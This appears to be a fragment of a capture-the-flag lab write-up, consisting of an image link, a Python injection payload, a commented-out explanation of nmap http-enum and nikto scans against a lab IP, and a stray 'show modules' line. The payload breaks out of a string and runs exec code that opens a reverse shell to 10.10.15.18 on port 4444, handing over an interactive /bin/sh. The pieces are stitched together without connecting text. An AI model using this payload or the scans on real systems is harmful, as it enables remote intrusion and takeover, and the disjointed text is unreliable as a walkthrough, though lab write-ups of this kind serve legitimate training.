 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.
---> 

show modules
